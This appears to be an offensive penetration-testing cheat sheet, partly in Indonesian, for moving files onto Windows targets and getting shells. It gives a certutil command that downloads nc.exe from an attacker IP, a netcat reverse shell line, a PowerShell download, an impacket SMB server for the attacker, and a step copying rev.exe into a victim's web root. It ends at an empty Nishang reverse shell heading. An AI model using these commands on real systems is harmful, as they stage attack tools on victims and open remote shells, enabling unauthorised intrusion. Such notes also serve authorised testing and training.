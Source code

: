 # Download and Upload

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" %tmp%\nc.exe

### Reverse Shell
%tmp%\nc.exe IP PORT -e cmd

## Download File From PowerShell) -- 

(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  

## Download File From SMB
### Attacker
```
impacket-smbserver drop $(pwd) -smb2support
```

`drop` adalah nama direktori yang akan di share

### Client victim
```
copy \\10.10.14.3\drop\rev.exe c:\Inetpub\wwwroot\rev.exe
```

## Reverse Shell With Nishang To Get Powershell --